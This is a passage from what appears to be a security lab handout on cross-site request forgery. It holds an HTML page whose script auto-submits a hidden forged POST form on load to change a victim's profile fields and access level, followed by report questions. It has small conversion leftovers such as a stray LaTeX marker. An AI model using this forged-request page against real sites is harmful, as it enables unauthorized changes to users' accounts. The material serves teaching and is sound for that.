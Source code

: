 ```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]'
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```

In Line, the value `2` sets the access level of a field to public. This is needed, otherwise, the access level will be set by default to private, so others cannot see this field. It should be noted that when copy-and-pasting the above code from a PDF file, the single quote character in the program may become something else (but still looks like a single quote). That will cause syntax errors. Replacing all the single quote symbols with the one typed from your keyboard will fix those errors.

## Questions

In addition to describing your attack in full details, you also need to
answer the following questions in your report:
